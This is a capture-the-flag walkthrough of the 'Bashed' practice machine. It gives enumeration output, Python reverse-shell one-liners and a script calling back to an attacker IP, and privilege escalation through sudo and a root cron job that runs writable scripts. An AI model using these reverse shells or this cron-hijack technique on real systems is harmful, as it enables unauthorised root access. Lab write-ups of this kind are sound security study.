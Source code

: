 Box: Linux
Level: Easy
### Index
1. [Box Info](#Box%20Info)
2. [Nmap Enum](#Nmap%20Enum)
3. [Web Enum](#Web%20Enum)
	1. [`Reverse Shell using Python`](#`Reverse%20Shell%20using%20Python`)
4. [Privilege Escalation](#Privilege%20Escalation)
	1. [`LinEnum and LinPEAS Findings for www-data user`](#`LinEnum%20and%20LinPEAS%20Findings%20for%20www-data%20user`)
	2. [`Switching Shell as scriptmanager user from www-data using sudo`](#`Switching%20Shell%20as%20scriptmanager%20user%20from%20www-data%20using%20sudo`)
	3. [`Pspy - Monitor Linux Process for each user without privileges`](#`Pspy%20-%20Monitor%20Linux%20Process%20for%20each%20user%20without%20privileges`)
	4. [`Grab the Root Flag`](#`Grab%20the%20Root%20Flag`)

### Box Info
```
Bashed is a fairly easy machine which focuses mainly on fuzzing and locating important files. As basic access to the crontab is restricted.
```
### Nmap Enum
```
# nmap -p- --min-rate=1000 -sC -sV -sT -T4 -A -Pn bashed.htb                                                                                             
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

Only one Port is open.
### Web Enum
```
# gobuster dir -u http://bashed.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
/images               (Status: 301) [Size: 309] [--> http://bashed.htb/images/]
/uploads              (Status: 301) [Size: 310] [--> http://bashed.htb/uploads/]
/php                  (Status: 301) [Size: 306] [--> http://bashed.htb/php/]
/css                  (Status: 301) [Size: 306] [--> http://bashed.htb/css/]
/dev                  (Status: 301) [Size: 306] [--> http://bashed.htb/dev/]
/js                   (Status: 301) [Size: 305] [--> http://bashed.htb/js/]
/fonts                (Status: 301) [Size: 308] [--> http://bashed.htb/fonts/]
```

Visiting `http://bashed.htb/php/` and notice `sendMail.php` file is present but it doesn't do anything. Just a blank page in the HTTP response.

Visiting /dev, we found two files that is basically reverse shell.
![](Bashed_WebShell.png)

###### `Reverse Shell using Python`
Using the following `python` command 
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.8",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

### Privilege Escalation

I assigned the Execute permission using `chmod`
###### `LinEnum and LinPEAS Findings for www-data user`
```
[-] Kernel information (continued):
Linux version 4.4.0-62-generic (buildd@lcy01-30) (gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.4) ) #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017

[+] We can sudo without supplying a password
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
    
════════════════╣ Processes, Crons, Timers, Services and Sockets ╠════════════════ 
[Snipped]
www-data  15666  0.0  0.0   4508   708 ?        S    13:39   0:00  |   _ sh -c uname -a; w; id; /bin/sh -i
www-data  15670  0.0  0.0   4508   752 ?        S    13:39   0:00  |       _ /bin/sh -i
www-data  15672  0.0  0.6  32168  6816 ?        S    13:39   0:00  |           _ python -c import pty;pty.spawn("/bin/bash")
www-data  15673  0.0  0.3  18220  3364 pts/2    Ss   13:39   0:00  |               _ /bin/bash
root      31680  0.0  0.3  49792  3544 pts/2    S    13:58   0:00  |                   _ sudo -u scriptmanager bash -i
scriptm+  31681  0.0  0.4  19272  4304 pts/2    S+   13:58   0:00  |                       _ bash -i

```

Looking at the processes, and `sudo` results above, i notice that I can swap my `www-data` shell into `scriptmanager`
###### `Switching Shell as scriptmanager user from www-data using sudo`
```
www-data@bashed:/tmp$ whoami
www-data
www-data@bashed:/tmp$ sudo -u scriptmanager bash -i
scriptmanager@bashed:/tmp$ whoami
scriptmanager
```
 
 Now I will run the `LinPEAS.sh` again here
```
╔══════════╣ Interesting GROUP writable files (not in Home) (max 200)
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-files                                                                        
  Group scriptmanager:                                                                                                                                   
/scripts 

```

Upon digging into `/script` directory we found that there are two files. `test.py` and `test.txt`

```
# scriptmanager@bashed:/scripts$ ls
reverse_shell.py  test.py  test.txt

# scriptmanager@bashed:/scripts$ cat test.py
cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close

```

###### `Pspy - Monitor Linux Process for each user without privileges`
[PSpy](https://github.com/DominicBreuker/pspy) allow you to monitor Linux Processes run by each user. This is something I don't have in `LinPEAS.sh` or `LinEnum.sh`. Also, If you take a look at `Cron Jobs` using LinEnum.sh or LinPEAS.sh, it doesn't say anything there as well. So I ran this and found that there's another Cron job that run every 2 minutes. Look at the results below

```
scriptmanager@bashed:/tmp$ ./pspy64
2024/09/26 19:31:01 CMD: UID=0     PID=83124  | /bin/sh -c cd /scripts; for f in *.py; do python "$f"; done 
2024/09/26 19:31:01 CMD: UID=0     PID=83125  | python reverse_shell.py 
2024/09/26 19:31:08 CMD: UID=0     PID=83126  | /bin/sh -c cd /scripts; for f in *.py; do python "$f"; done 
2024/09/26 19:32:01 CMD: UID=0     PID=83127  | /usr/sbin/CRON -f 
2024/09/26 19:32:01 CMD: UID=0     PID=83128  | /usr/sbin/CRON -f 
2024/09/26 19:32:01 CMD: UID=0     PID=83129  | python reverse_shell.py 
2024/09/26 19:32:07 CMD: UID=1001  PID=83130  | wget http://10.10.14.8/test1.py 
2024/09/26 19:32:09 CMD: UID=0     PID=83131  | /bin/sh -c cd /scripts; for f in *.py; do python "$f"; done 
2024/09/26 19:33:01 CMD: UID=0     PID=83132  | /usr/sbin/CRON -f 
2024/09/26 19:33:01 CMD: UID=0     PID=83133  | /usr/sbin/CRON -f 
2024/09/26 19:33:01 CMD: UID=0     PID=83134  | python reverse_shell.py 
2024/09/26 19:33:09 CMD: UID=0     PID=83135  | /bin/sh -c cd /scripts; for f in *.py; do python "$f"; done 
2024/09/26 19:33:16 CMD: UID=1001  PID=83136  | wget http://10.10.14.8/test1.py 
2024/09/26 19:34:01 CMD: UID=0     PID=83137  | /usr/sbin/CRON -f 
2024/09/26 19:34:01 CMD: UID=0     PID=83138  | /usr/sbin/CRON -f 
2024/09/26 19:34:01 CMD: UID=0     PID=83139  | python reverse_shell.py 
2024/09/26 19:34:09 CMD: UID=0     PID=83140  | /bin/sh -c cd /scripts; for f in *.py; do python "$f"; done 
2024/09/26 19:34:36 CMD: UID=???   PID=83141  | ???
2024/09/26 19:34:41 CMD: UID=???   PID=83142  | ???

```

`UID=0` is a root user running all the `*.py` files from the `/scripts` directory every 2 minutes.

Which means we can prepare a python shell using the following code and put it in the `/scripts` folder and wait for the root shell
```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/bashed.htb]
└─# cat test1.py                                
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.8",1337))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

```
scriptmanager@bashed:/scripts$ wget http://10.10.14.8/test1.py
wget http://10.10.14.8/test1.py
--2024-09-26 19:35:04--  http://10.10.14.8/test1.py
Connecting to 10.10.14.8:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 212 [text/x-python]
Saving to: 'test1.py'

test1.py            100%[===================>]     212  --.-KB/s    in 0.001s  

2024-09-26 19:35:04 (263 KB/s) - 'test1.py' saved [212/212]
```

###### `Grab the Root Flag`
Starting the netcat listener on port `1337`.
```
# nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.68] 44542
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
```

Get your root flag
